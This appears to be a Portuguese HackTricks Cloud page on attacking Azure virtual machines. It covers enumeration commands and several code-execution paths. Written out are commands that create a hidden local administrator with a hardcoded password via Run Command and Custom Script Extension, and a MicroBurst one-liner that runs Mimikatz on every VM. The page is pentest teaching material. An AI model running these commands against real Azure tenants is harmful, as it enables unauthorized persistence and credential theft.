 # Az - Máquinas Virtuais & Rede

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

As máquinas virtuais Azure são um dos vários tipos de [recursos de computação escaláveis e sob demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Informações da Rede Azure

As redes Azure contêm **diferentes entidades e maneiras de configurá-las.** Você pode encontrar **descrições,** **exemplos** e comandos de **enumeração** das diferentes entidades de rede Azure em:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** é um serviço totalmente gerenciado que fornece **acesso RDP** (Protocolo de Área de Trabalho Remota) e **SSH** (Secure Shell) **seguro e contínuo** às suas **máquinas virtuais diretamente no portal Azure sobre SSL**. Este serviço é uma alternativa mais segura e conveniente **à exposição de suas máquinas virtuais a conexões públicas de Internet**. O Azure Bastion é provisionado dentro da sua Rede Virtual Azure, fornecendo conectividade RDP e SSH para todas as VMs na VNet usando endereços IP privados, o que significa que você não precisa atribuir endereços IP públicos às suas VMs Azure.

Então, se sua empresa tem várias VMs hospedadas dentro de uma VNet Azure para desenvolvimento e teste. **Em vez de configurar endereços IP públicos e gerenciar regras NSG** para cada VM para habilitar o acesso RDP ou SSH, você **implanta o Azure Bastion**. Com o Azure Bastion, seus desenvolvedores e pessoal de TI podem **acessar essas VMs a partir do portal Azure usando seus navegadores web de forma segura** sem a necessidade de endereços IP públicos.

Para listar todos os Hosts Azure Bastion na sua assinatura, você pode usar o seguinte comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## Enumeração de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Executar comandos em uma VM**

### **Login AAD em VM**

É possível permitir acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **VM linux**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o email** com o azurecorp usado ao tentar fazer login), você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Apenas **siga essas instruções** acessando [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o email e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para fazer isso: `Virtual Machine Administrator Login` ou `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Executar Extensão de Script Personalizado**

As extensões de máquina virtual (VM) do Azure são **pequenas aplicações** que fornecem configuração pós-implantação e **tarefas** de automação em **VMs do Azure**. Por exemplo, se uma máquina virtual necessita de instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão de VM.

Portanto, se você tem acesso para escrever nela, você pode executar código arbitrário:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)** é semelhante ao Ansible, mas é uma ferramenta dentro do PowerShell que permite configurar um host por meio de código. O DSC tem sua própria extensão no Azure que permite o upload de **arquivos de configuração**. Os [arquivos de configuração](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) do DSC são bastante exigentes quanto à sintaxe, no entanto, a extensão do DSC é muito crédula e executará **cegamente qualquer comando** desde que siga um determinado formato, conforme mostrado na figura 5.

<figure><img src="../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Isso pode ser feito através da função **Az PowerShell** [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). A extensão DSC requer um **.PS1** com uma **função** e **empacotado** em um arquivo **.zip**. Como essa não é a sintaxe correta do DSC, o status da extensão será exibido como "falha", no entanto, o código será executado. O problema é que não há saída do comando, pois o status é sobrescrito com a mensagem de falha.

### VM Application Definitions

O recurso [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) é uma maneira de **implantar aplicações versionadas de forma repetível** em uma VM do Azure. Por exemplo, se você criar um **programa** e **implantá-lo** em todas as VMs do Azure como versão 1.0, uma vez que você **atualize** o programa **para 1.1**, você pode usar a mesma Aplicação VM para **criar outra definição** e enviar a atualização para qualquer VM.\
Ser capaz de **implantar uma aplicação** em uma VM significa que é mais um caminho para **execução de código**. A desvantagem deste método é que a configuração da Definição da Aplicação [**requer alguns passos**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), mas pode ser realizada usando os cmdlets **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** no Az PowerShell.

Esta técnica funciona utilizando uma **extensão "VMAppExtension"** que é automaticamente instalada ao aplicar uma aplicação a uma VM. A extensão baixa o arquivo da URI para o disco com o nome da Aplicação _exatamente_, o que significa que se o nome da aplicação for 'AzApplication', o arquivo no disco também será chamado 'AzApplication', sem extensão. Isso requer que o campo "ManageActions" na [chamada da API REST](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) seja configurado para renomear a aplicação com a extensão apropriada. Se você não quiser executar uma aplicação inteira, comandos do PowerShell arbitrários podem ser executados abusando também do campo ManageActions no mesmo método da API REST ou também através do Portal Azure. Uma vez configurado, a definição será semelhante à figura 8.

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

Esta técnica de execução é infelizmente lenta (cerca de 3-4 minutos para executar um aplicativo ou comando), no entanto, sendo relativamente nova, seria surpreendente se houvesse detecções específicas escritas.

Como é uma extensão que finalmente faz a execução, uma cópia da aplicação está localizada em `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` e o status da execução é mantido em `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) permitem que um **Runbook** configurado em uma Conta de Automação seja **executado** em uma **Máquina Virtual Azure** que faz parte do **HWG configurado**. Mais uma vez, uma **extensão é usada** na VM para implantar o código do Runbook na VM. Como uma extensão é usada, as credenciais são irrelevantes e o código é executado como **SYSTEM** ou root.

<figure><img src="../../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

Se estiver usando uma VM Windows 10, é importante que o Runbook seja executado como PowerShell Versão 5.1 em vez de 7.1, pois 7.1 não está instalado nas VMs por padrão e o script falhará ao ser executado.

## Referências

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
